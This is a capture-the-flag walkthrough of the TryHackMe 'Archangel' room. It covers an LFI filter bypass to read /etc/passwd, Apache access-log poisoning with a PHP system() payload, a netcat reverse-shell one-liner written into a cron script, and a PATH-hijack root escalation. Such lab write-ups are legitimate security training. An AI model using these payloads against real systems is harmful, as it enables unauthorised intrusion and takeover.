









# Archangel
**Date:** February 22nd 2022

**Author:** j.info

**Link:** [**Archangel**](https://tryhackme.com/room/archangel) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>



<br>

## Objectives
- Find a different hostname
- Find flag 1
- Look for a page under development
- Find flag 2
- Get a shell and find the user flag
- Get user 2 flag
- Root the machine and find the root flag

<br>

## Initial Enumeration

<br>

### Nmap Scan

`sudo nmap -sV -sC -A -T4 10.10.56.122`

```
ORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Wavefire
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.56.122 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 19188]
/pages                (Status: 200) [Size: 0]
/images               (Status: 200) [Size: 0]
/flags                (Status: 200) [Size: 935]
/layout               (Status: 200) [Size: 0]
/.htpasswd            (Status: 403) [Size: 277]
/.htpasswd.php        (Status: 403) [Size: 277]
/.htpasswd.txt        (Status: 403) [Size: 277]
/.htpasswd.html       (Status: 403) [Size: 277]
/licence.txt          (Status: 200) [Size: 5014]
/server-status        (Status: 403) [Size: 277]
```

<br>

## Website Digging

Visiting the main page:

<br>


<br>

This gives us the answer to the **first** objective: **Find a different hostname**:

<br>


<br>

Prepare to meet our good friend Rick:

<br>



<br>

None of the other links provide anything useful so I go and add the following to my **/etc/hosts**:

```
10.10.56.122	mafialive.thm
```

And then visit the website:

<br>



<br>

This gives us the answer to the **second** objective: **Find flag 1**

Let's run another **gobuster** scan on **mafialive.thm**:

```
/robots.txt           (Status: 200) [Size: 34]
/index.html           (Status: 200) [Size: 59]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/test.php             (Status: 200) [Size: 286]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
```

Visiting **robots.txt** points us to **test.php**.

This page gives us the answer to the **third** objective: **Look for a page under development**.

<br>



<br>

Clicking the button displays this message. Also, look closely at the link in the address bar, something tells me some **LFI** is about to come into play.

<br>



<br>

I fire up **burp** and capture/send the request over to **repeater**. There I try and modify the view= to show **/etc/passwd** and it does not allow it saying "Sorry, That's not allowed". I try and view the **index.html** file which is in the same directory and it does allow it, so LFI is working but with some restrictions.

I want to get in and look at the code for **mrrobot.php** so I can see how to better exploit the LFI vulnerability and send the following request in burp:

<br>



<br>

Decoding that base64 via:  `echo "PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==" | base64 -d`

```
<?php echo 'Control is an illusion'; ?>
```

Nothing there, let's look at **test.php**. After decoding the base64:

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: <REDACTED>

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```

That gets us the answer to the **fourth** objective: **Find flag 2**

<br>

## System Access


The code we're interested in is this:

```php
if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{
```

Reading that code it will only return a result if the request has the full **/var/www/html/development_testing** string and does NOT have the **../..** pattern in the string.

There are a couple easy ways to get around that filter. You can either add another slash or period like this:
+ /var/www/html/development_testing/.././.././.././../etc/passwd
+ /var/www/html/development_testing/..//..//..//../etc/passwd

And sending a request like that over via burp:

<br>



<br>

And that worked perfectly! We can see that besides root there is only the **archangel** user on the system. I check to see if that user has an **ssh** key sitting around in their home directory and unfortunately they do not.

In burp I check to see if the **/var/log/apache2/access.log** file is viewable and it is:

```
10.6.127.197 - - [23/Feb/2022:21:25:16 +0530] "GET /test.php HTTP/1.1" 404 491 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"
10.6.127.197 - - [23/Feb/2022:21:25:16 +0530] "GET /favicon.ico HTTP/1.1" 404 490 "http://10.10.106.97/test.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"
10.6.127.197 - - [23/Feb/2022:21:26:07 +0530] "-" 408 0 "-" "-"
10.6.127.197 - - [23/Feb/2022:21:27:04 +0530] "GET /test.php HTTP/1.1" 200 473 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
10.6.127.197 - - [23/Feb/2022:21:27:33 +0530] "GET /test.php?view=/var/www/html/development_testing/mrrobot.php HTTP/1.1" 200 449 "http://mafialive.thm/test.php" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
```

I then check to see if I can use **log poisioning** to gain code execution and it works. To do this intercept a request in burp and change your user agent to the following:

```
User-Agent: Mozilla/5.0 <?php system($_GET['c']); ?> Firefox/91.0
```

And then add a command to the GET request:

```
GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&c=id HTTP/1.1
```

Then send the request through. Once you do you should get the following back and can see that the **id** command was inserted into the middle of the **user-agent**:

```
10.6.127.197 - - [23/Feb/2022:21:41:12 +0530] "GET /test.php?view=/var/www/html/development_testing//..//..//..//..//var/log/apache2/access.log&c=id HTTP/1.1" 200 807 "http://mafialive.thm/test.php" "Mozilla/5.0 uid=33(www-data) gid=33(www-data) groups=33(www-data)
 Firefox/91.0"
```

Now that we have RCE we should be able to get a shell on the system. I look up a quick oneliner PHP reverse shell on [**PayloadsAllTheThings**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php) and pick the first one under the **PHP** section. I then **URL encode** it and send the request through **burp** and get a shell back:

<br>



<br>

I check to see if I can view the user flag in the **archangel** user directory and can giving us the answer to the **fifth** objective: **Get a shell and find the user flag**:

```
www-data@ubuntu:/var/www/html/development_testing$ cd /home/archangel
www-data@ubuntu:/home/archangel$ ls
myfiles  secret  user.txt
www-data@ubuntu:/home/archangel$ cat user.txt
thm{<REDACTED>}
www-data@ubuntu:/home/archangel$
```

We don't have access to visit the **secret** directory so I take a look in **myfiles** and find a file called **passwordbackup**. Opening that up will let you visit with our good friend Rick again:

```
total 12
drwxr-xr-x 2 archangel archangel 4096 Nov 18  2020 .
drwxr-xr-x 6 archangel archangel 4096 Nov 20  2020 ..
-rw-r--r-- 1 root      root        44 Nov 18  2020 passwordbackup
www-data@ubuntu:/home/archangel/myfiles$ cat passwordbackup 
https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

<br>

## Archangel

I look in the **/opt** directory and find some interesting files:

```
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh
```

Looking in the **helloworld.sh** script:

```
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

We have the ability to modify this script however we wish and looking at **/etc/crontab** shows that it automatically runs once per minute:

`cat /etc/crontab`

```
# m h dom mon dow user  command
*/1 *   * * *   archangel /opt/helloworld.sh
```

We just need to modify the script to connect back to a listener on our system. I change it to this:

```
#!/bin/bash
#echo "hello world" >> /opt/backupfiles/helloworld.txt
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <MY IP> 5555 >/tmp/f
```

Then set up a listener on my system and wait:

```
listening on [any] 5555 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.106.97] 44128
bash: cannot set terminal process group (1758): Inappropriate ioctl for device
bash: no job control in this shell
archangel@ubuntu:~$ whoami
whoami
archangel
```

Now let's check out that **secret** directory in the home directory that we couldn't access before:

```
drwxrwx--- 2 archangel archangel  4096 Nov 19  2020 .
drwxr-xr-x 6 archangel archangel  4096 Nov 20  2020 ..
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
-rw-r--r-- 1 root      root         49 Nov 19  2020 user2.txt
```

Opening up **user2.txt** gives us the answer to the **sixth** objective: **Get User 2 flag**

<br>

## Root

The **backup** program is set to **SUID** and will run as root, so that's our likely escalation path.

It's an executable binary file so I examine it with `strings backup` and find that it runs the following command:

```
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

The **cp** command isn't set to an absolute path so we can easily make our own command with the same name and escalate our privileges to root that way.

First, looking at the environmental variable for PATH:

```
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Running `export PATH=$PWD:$PATH` will update the path and checking again to make sure it's been updated:

```
PATH=/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Now we can create our **cp** command in the **secret** directory.

```
#!/bin/bash
/bin/bash
```

Then `chmod +x cp` and run `backup`:

```
archangel@ubuntu:~/secret$ ./backup
root@ubuntu:~/secret# whoami
root
```

Changing over to **/root** and looking at **root.txt** gives us our final objective.

With that we've completed this CTF!

<br>



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using a **php filter** to convert a .php file to base64 so we can view it through the web browser
- Examining php code to learn how to **bypass the LFI filter**
- Using **LFI** to probe the system for weaknesses
- **Log poisoning** an Apache2 servers **access.log** file using **burp**
- Modifying a bash script that runs as another user via **cron** to move laterally
- Examining a **SUID** bit program that runs as root and finding that a command it calls didn't have an absolute path set. This allowed us to create our own command of the same name to escalate to root.

<br>

Many thanks to:
- [**Archangel**](https://tryhackme.com/p/Archangel) for creating this CTF
- **TryHackMe** for hosting this CTF.

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
